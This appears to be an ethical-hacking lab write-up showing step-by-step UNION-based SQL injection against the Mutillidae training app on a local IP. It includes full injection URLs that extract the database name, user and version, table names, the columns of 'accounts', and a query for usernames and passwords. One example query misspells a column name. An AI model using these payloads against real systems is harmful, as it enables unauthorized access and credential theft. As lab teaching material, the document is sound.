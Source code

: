 ![image](https://github.com/Aishwarya-TM/EH-Ex-08/assets/127846109/c9c455e7-fbf1-4e59-a3bc-250197cdfec7)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Aishwarya-TM/EH-Ex-08/assets/127846109/c1f9bdb0-98cb-496c-a837-164a146bc214)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Aishwarya-TM/EH-Ex-08/assets/127846109/89537350-aefe-4029-9ca4-d0e3bf963a99)


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/Aishwarya-TM/EH-Ex-08/assets/127846109/ab9cf812-6802-4e6a-a594-58438822d8a4)





The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![image](https://github.com/Aishwarya-TM/EH-Ex-08/assets/127846109/0ace36d8-bab4-40cd-98a0-8d7fc11c9dbb)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).
